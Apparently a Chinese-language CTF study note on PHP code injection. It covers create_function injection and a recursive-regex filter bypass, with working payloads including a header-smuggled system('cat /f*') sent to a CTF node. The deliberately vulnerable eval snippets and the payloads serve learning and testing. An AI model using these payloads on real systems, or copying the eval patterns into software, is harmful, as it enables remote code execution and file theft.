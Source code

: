 ## create_function 函数

`create_function` 函数根据传递的参数创建匿名函数，并为该匿名函数返回唯⼀的名称
函数语法: `string create_function(string $arges , string $code)`

```php
<?php
$id=$_GET['id'];
$code='echo'.$func.'test'.$id.'.';
create_function('$func',$code);
?>
```

`create_function` 函数会创建虚拟函数转变成如下代码

```php
<?php
$id=$_GET['id'];
function func($func){
    echo "test".$id;
}
```

当 id 传⼊`1;}phpinfo();/*`时 就可以造成代码执⾏
Payload:

`http://127.0.0.1/test.php?id=1;}phpinfo();/*`

拼接后为, 把后面都注释了。

```php
<?php
$id=$_GET['id'];
function func($func){
  echo "test".1;}phpinfo();/*;
}
?>
```

## `[^\W]+\((?R)?\)` bypass

```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
} else {
    show_source(__FILE__);
    
}
// ?code=var_dump(get_defined_vars());&aaa=phpinfo()
```

- \w 匹配大小写字母、数字和下划线，
- \W 匹配非大小写字母、数字和下划线。
- `[^\W]` 为\W取反=\w。\(和\)匹配()
- (?R)递归匹配, aaa(bbb())，或aaa()。

进阶版
```php
<?php
highlight_file(__FILE__);
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){
        eval($_GET['star']);
    }
}
```
bp发包
```sh
GET /bo0g1pop.php?star=eval(pos(array_reverse(getallheaders()))); HTTP/1.1
Host: faf83665-1a88-473a-b765-ddd33c6cf370.node4.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
X-Forwarder-Proto: system('cat /f*');
Upgrade-Insecure-Requests: 1
```
解2
```sh
Paylaod:bo0g1pop.php?star=print_r(getallheaders()); 然后随便添加个参数：newstar=phpinfo();
?star=eval(array_rand(array_flip(getallheaders())));

array_reverse
array_flip()函数，它会将传进来的数组进行一个键和值的互换，这样的话phpinfo();就变成键了，
array_rand(),
```